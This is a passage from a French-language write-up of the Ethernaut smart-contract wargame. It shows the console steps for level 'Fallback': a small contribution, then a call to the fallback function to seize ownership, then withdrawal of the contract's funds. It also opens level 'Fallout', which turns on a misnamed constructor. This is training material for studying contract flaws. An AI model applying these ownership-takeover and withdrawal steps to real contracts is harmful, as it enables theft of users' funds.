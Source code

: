 Utiliser la fallback function: aucune protection particulière, il faudra simplement s'assurer d'avoir une contribution avant d'appeler cette fonction. On comprend alors pourquoi le challenge s'appelle **Fallback**.

### Attaque

```javascript
// we are not owner :(
> await contract.owner() == player
false

// contribution of the owner
> await contract.contributions(await contract.owner())
"10000000"

// call contribute() function with small contribution
> contract.contribute({value:toWei("0.00000001")})

// call fallback function
> contract.sendTransaction({value:toWei("0.00000001")})

// we are owner :)
> await contract.owner() == player
true

// get money
> contract.withdraw()
```

> You know the basics of how ether goes in and out of contracts, including the usage of the fallback method.
>
> You've also learnt about OpenZeppelin's Ownable contract, and how it can be used to restrict the usage of some methods to a priviledged address.
>
> Move on to the next level when you're ready!



---

## 2 - Fallout

---

> **TL;DR**
>
> Erreur sur le nom du constructeur, n'importe qui peut alors l'appeler (étant donné qu'il sera considéré comme un fonction comme les autres) !

Claim ownership of the contract below to complete this level.

 Things that might help

- Solidity Remix IDE
